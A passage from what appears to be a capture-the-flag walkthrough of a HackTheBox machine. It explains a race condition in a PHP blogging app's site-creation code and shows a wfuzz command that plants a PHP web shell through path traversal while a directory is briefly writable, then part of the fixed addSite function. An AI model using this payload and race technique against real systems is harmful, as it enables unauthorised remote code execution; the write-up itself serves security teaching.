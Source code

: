 
It makes `microblog` writable, and copies the template into that directory.
Then it makes the `content` folder writable, but then steps up and sets the
reset of the site not writable.

The issue is that there’s a race condition there. For a very short period of
time, there’s a writable directory that will allow PHP to run.

#### Exploit

To exploit this, I’ll use `wfuzz` to send a lot of requests at once to write
into a site that doesn’t exist:

    
    
    oxdf@hacky$ wfuzz -u http://10.10.11.213/edit/ -H "Host: race.microblog.htb" -b 'username=rbb8bp6umb0logs0i3sqlcp5kc' -d 'id=../0xdf.php&txt=<?php+system($_REQUEST["cmd"]);+?>&oops=FUZZ' -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
    

I haven’t created `race.microblog.htb` yet, but that’s my `Host` header. It’s
using my session cookie, and trying to write to the root of that site. I’ve
added an `oops` parameter just to have something to `FUZZ` so `wfuzz` will
send lots of requests at once. If I try something like `curl` here in a `while
true` loop, it’s too slow.

Once I start this running, I’ll create the site. For example, with this `curl`
command:

    
    
    oxdf@hacky$ curl -v app.microblog.htb/dashboard/ -b username=rbb8bp6umb0logs0i3sqlcp5kc -d new-blog-name=race
    

While the site is being created, `wfuzz` is throwing _tons_ of requests at it,
and one is likely to land while the base directory for `race` is writable.
Once the site is created, I’ll kill the `wfuzz` and check. The webshell is
there:

![image-20230515180123056](../img/image-20230515180123056.png)

#### Fix

The code is fixed in the `addSite` function here:

    
    
    function addSite($site_name) {                                                                           
        if(isset($_SESSION['username'])) {     
            //check if site already exists                                                                   
            $scan = glob('/var/www/microblog/*', GLOB_ONLYDIR);
            $taken_sites = array();                                                                                                                                                                                    
            foreach($scan as $site) {                                                                                                                                                                                  
                array_push($taken_sites, substr($site, strrpos($site, '/') + 1));
            }                                      
            if(in_array($site_name, $taken_sites)) {                                                         
                header("Location: /dashboard?message=Sorry, that site has already been taken&status=fail");
                exit;                       
            }                                                                                                
            $redis = new Redis();                                                                            
            $redis->connect('/var/run/redis/redis.sock');                                                                                                                                                                      $redis->LPUSH($_SESSION['username'] . ":sites", $site_name);
            $tmp_dir = "/tmp/" . generateRandomString(7);                                                
            system("mkdir -m 0700 " . $tmp_dir);                                                             
            system("cp -r /var/www/microblog-template/* " . $tmp_dir);                              